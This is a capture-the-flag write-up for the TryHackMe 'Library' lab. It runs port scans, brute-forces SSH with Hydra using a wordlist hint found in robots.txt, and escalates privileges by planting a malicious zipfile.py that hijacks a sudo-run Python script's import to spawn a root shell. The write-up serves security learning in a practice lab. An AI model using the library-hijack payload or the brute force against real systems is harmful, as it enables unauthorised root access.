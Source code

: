 -------------------

### CTF-: TRYHACKME
### Lab-: Library

-------------------

![image](https://github.com/user-attachments/assets/46a2c6c6-e25d-4e2e-ae07-32033853d713)

------------------

### Enumeration

- Rustscan's output
      
      ❯ rustscan -a 10.10.162.244 -- -Pn -sC -sV
      .----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
      | {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
      | .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
      `-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
      The Modern Day Port Scanner.
      ________________________________________
      : https://discord.gg/GFrQsGy           :
      : https://github.com/RustScan/RustScan :
       --------------------------------------
      Nmap? More like slowmap.🐢
      
      [~] The config file is expected to be at "/home/sensei/.rustscan.toml"
      [!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
      [!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
      Open 10.10.162.244:22
      Open 10.10.162.244:80
      [~] Starting Script(s)
      [>] Script to be run Some("nmap -vvv -p {{port}} {{ip}}")
      
      Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
      [~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-01 16:52 WAT
      NSE: Loaded 156 scripts for scanning.
      NSE: Script Pre-scanning.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.00s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.00s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.00s elapsed
      Initiating Parallel DNS resolution of 1 host. at 16:52
      Completed Parallel DNS resolution of 1 host. at 16:52, 0.07s elapsed
      DNS resolution of 1 IPs took 0.07s. Mode: Async [#: 1, OK: 0, NX: 1, DR: 0, SF: 0, TR: 1, CN: 0]
      Initiating Connect Scan at 16:52
      Scanning 10.10.162.244 [2 ports]
      Discovered open port 80/tcp on 10.10.162.244
      Discovered open port 22/tcp on 10.10.162.244
      Completed Connect Scan at 16:52, 0.19s elapsed (2 total ports)
      Initiating Service scan at 16:52
      Scanning 2 services on 10.10.162.244
      Completed Service scan at 16:52, 6.47s elapsed (2 services on 1 host)
      NSE: Script scanning 10.10.162.244.
      NSE: Starting runlevel 1 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 6.94s elapsed
      NSE: Starting runlevel 2 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.84s elapsed
      NSE: Starting runlevel 3 (of 3) scan.
      Initiating NSE at 16:52
      Completed NSE at 16:52, 0.01s elapsed
      Nmap scan report for 10.10.162.244
      Host is up, received user-set (0.19s latency).
      Scanned at 2024-11-01 16:52:24 WAT for 15s
      
      PORT   STATE SERVICE REASON  VERSION
      22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
      | ssh-hostkey: 
      |   2048 c4:2f:c3:47:67:06:32:04:ef:92:91:8e:05:87:d5:dc (RSA)
      | ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC/X/Zd2/Rc7PrxR+K9bGX9i7Imk3JlU274UsMqM6X03THehc6XUvg0URMryl9IldYLjQvD0fadIg1jB8rCxqzRiJi35nw7ICUXnpZryDS/guLb94Sb9IrLWBTNNdUWV7bTb4gMaGHdyQAmKY62FgL2aKUFMn8SpxJu0WiVIQgcKkv15s17rNqVD39kG8x/bfdftcjn/YtEP09Sy4z1FqXF9FT1xWKaVr3Pd5rCAU4rpOzVpS+qTj77NWaXNDlcg3aCRaILD+4lquq8kVAA+VcXR9IwXOTKJRzRCMfYwd3M6QC45LlRa17xvhI++vBtCcGwxuD9JZsXu0Cd/5fdisrl
      |   256 68:92:13:ec:94:79:dc:bb:77:02:da:99:bf:b6:9d:b0 (ECDSA)
      | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI8Oi4FyiWylek0a1n1TD1/TBOi2uXVPfqoSo1C56D1rJlv4g2g6SDJjW29bhodoVO6W8VdWNQGiyJ5QW2XirHI=
      |   256 43:e8:24:fc:d8:b8:d3:aa:c2:48:08:97:51:dc:5b:7d (ED25519)
      |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOPQQrT4KT/PF+8i33LGgs0c83MQL1m863niSGsBDfCN
      80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
      | http-methods: 
      |_  Supported Methods: POST OPTIONS GET HEAD
      |_http-server-header: Apache/2.4.18 (Ubuntu)
      | http-robots.txt: 1 disallowed entry

- I checked the `robots.txt` file and got an hint of using `rcokyou` to bruteforce.

![image](https://github.com/user-attachments/assets/7c81ddbb-d02a-434c-8e35-e8105f711884)

- I checked the index page and discovered a possible user `meliodas`.

![image](https://github.com/user-attachments/assets/4cc86528-8f25-48c7-88be-dcc70f983247)

- Then, I tried to brutforce the `ssh` service with `Hydra` which worked.

![image](https://github.com/user-attachments/assets/b80f143c-98b5-48af-a839-89d862ef5490)

- Ssh access as user `Meliodas`

![image](https://github.com/user-attachments/assets/9c73b421-e4a0-4659-b1ad-02089052ef5a)

-----------------------

### Privesc with Python Library

- I ran `sudo -l` and discovered that user `meliodas` can execute a python script as root which is present in his directory.

![image](https://github.com/user-attachments/assets/31e424da-f001-40bd-9015-b2ad244e9771)

- I checked the source code and noticed that the script imports 2 modules `os` and `zipfile`.We don't need to read the code further,we've gotten a sink.Python checks the current directory for
a module before it checks `/usr/lib` directory for python scripts.We can abuse one of the modules by creating a malicious script in the current working directory.A module `zipfile` will have
script `zipfile.py`.

```python3
#!/usr/bin/env python
import os
import zipfile
```

- I created a `zipfile.py` in the directory and added this piece of code below.

```python3
import os
os.setuid(0);os.setgid(0);os.system("bash -p")
```

- I ran the `sudoers rule ` command again to gain root

![image](https://github.com/user-attachments/assets/4e4ccf64-b176-480f-a8a1-13e12c19ad31)

- Root!!!!

![image](https://github.com/user-attachments/assets/fecb5dd6-0a69-42a0-bdf8-30a03f88500f)

---------------

### THANKS FOR READING!!!

---------------









